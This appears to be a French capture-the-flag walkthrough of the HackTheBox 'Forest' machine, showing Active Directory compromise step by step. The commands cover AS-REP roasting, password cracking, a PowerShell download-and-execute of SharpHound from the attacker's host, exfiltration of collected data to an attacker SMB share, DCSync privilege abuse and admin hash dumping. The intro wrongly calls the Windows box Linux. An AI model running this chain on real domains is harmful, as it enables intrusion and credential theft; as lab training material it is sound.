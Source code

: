 ![Pic1](../img/forest1.PNG?raw=true) </br>

# Introduction

Forest est une machine linux dont l'adresse IP est 10.10.10.161.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* 
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.161
```
![Pic2](../img/admirer2.PNG?raw=true) </br>
Plusieurs ports ouverts, on peut déjà tenter une énumération des dossiers partagés par SMB :
```bash
$ smbmap -H 10.10.10.161
```
![Pic3](../img/admirer3.PNG?raw=true) </br>
Aucun partage dispo.</br>
On peut faire une énumération RPC avec rpcclient :
```bash
$ rpcclient -U "" -N 10.10.10.161
rpcclient > enumdomusers
```
![Pic4](../img/admirer4.PNG?raw=true) </br>
![Pic5](../img/admirer5.PNG?raw=true) </br>

# Obtenir un accès utilisateur
En ayant la liste des utilisateurs, nous pouvons tenter d'obtenir un ticket Kerberos pour chacun, cela fonctionnera que pour le compte
svc-alfresco :
```bash
$ GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/svc-alfresco
```
![Pic6](../img/admirer6.PNG?raw=true) </br>

Nous pouvons le cracker avec john :
```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/admirer7.PNG?raw=true) </br>
Nous pouvons alors nous connecter via le port 5985 avec Evil-WinRM et lire le user.txt :
```bash
$ evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
> cat ../Desktop/user.txt
```
![Pic8](../img/admirer8.PNG?raw=true) </br>

# Obtenir un accès administrateur
Nous allons utiliser l'outil Bloodhound, pour ce faire, il faut :
* Upload SharpHound sur la box et l'éxécuter.
* Envoyé le résultat de SharpHound vers l'attaquant.
* Charger le résultat dans Bloodhound.
* Analyser le résultat pour voir l'exploit.
* Exploitation.

## Upload SharpHound sur la box et l'éxécuter
Coté attaquant :
```bash
$ cp /opt/bloodhound/Collectors/SharpHound.ps1 ./
$ python3 -m http.server
```
Coté box :
```bash
> cd C:\Users\svc-alfresco\appdata\local\temp
> iex(new-object net.webclient).downloadstring("http://10.10.14.34:8000/SharpHound.ps1")
> dir
```
![Pic9](../img/admirer9.PNG?raw=true) </br>
Nous pouvons voir le fichier 20201124130216_BloodHound.zip qui contient le résultat des données récoltées par SharpHound.

## Envoyé le résultat de SharpHound vers l'attaquant
Coté attaquant :
```bash
$ smbserver.py share . -smb2support -username df -password df
```
![Pic10](../img/admirer11.PNG?raw=true) </br>
Coté box :
```bash
> net use \\10.10.14.34\share /u:df df
> copy 20201124130216_BloodHound.zip \\10.10.14.34\share\
> del 20201124130216_BloodHound.zip
> net use /d \\10.10.14.34\share
```
![Pic11](../img/admirer10.PNG?raw=true) </br>

## Charger le résultat dans Bloodhound
On lance neo4j et bloodhound :
```bash
$ neo4j console
$ bloodhound
```
</br>
Maintenant nous importons les données dans bloodhound :</br>
![Pic12](../img/admirer12.PNG?raw=true) </br>
Une fois finit, on va faire une recherche pour trouver le chemin le plus court vers l'administrateur du domaine :</br>
![Pic13](../img/admirer13.PNG?raw=true) </br>
Nous avons alors un résultat graphique très sympa :</br>
![Pic14](../img/admirer14.PNG?raw=true) </br>
Il faut savoir, que sur chaque arête se trouve un élément (Member of / contain / Genericall ..) et si on clique droit sur cet élément
et que l'on clique sur Help, Bloodhound nous donne un descriptif très complet. Dans notre cas, on a GenericAll et WriteDacl qui, dans l'help, ont une rubrique "Abuse Info" pour 
expliquer en détail comment epxloiter l'élément.

## Analyser le résultat pour voir l'exploit
En visualisant le graphique, on peut voir qu'il faudra deux jumps pour accéder à l'Administrateur depuis 
svc-alfresco. Notre utilisateur étant déjà dans le groupe Privileged IT Account, qui lui même est dans le groupe Account Operators, qui ce dernier,
si on clique sur le nom de son arête "GenericAll" nous permet de voir que ce groupe a tous les pouvoirs sur Exchange Windows Permissions. Donc il nous faudra ajouter notre compte
dans le groupe, puis à partir de ce moment là, le groupe Exchange Windows Permissions a les permissions de modifier le DACL (Discretionary Access Control List), donc nous pourrons
nous donner le privilège DcSync dans le but de dump le hash de l'admin.</br>
En résumer :
* On se rajoute dans le groupe Exchange Windows Permissions (via commande powershell).
* On se donne le privilège DcSync (via commande powershell).
* On fait un dump du hash admin (via mimikatz ou secretdump.py).

## Exploitation
L'exploitation doit se faire rapidement, sinon nous perdons les groupes acquis. Donc un One-Liner powershell est fait içi, je reprend simplement les commandes expliquées dans
bloodhound :
```bash
Evil-winRM > Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco;
 $username = "htb\svc-alfresco"; $password = "s3rvice"; 
 $secstr = New-Object -TypeName System.Security.SecureString; 
 $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; 
 $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; 
 Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
```bash
$ secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![Pic15](../img/admirer15.PNG?raw=true) </br>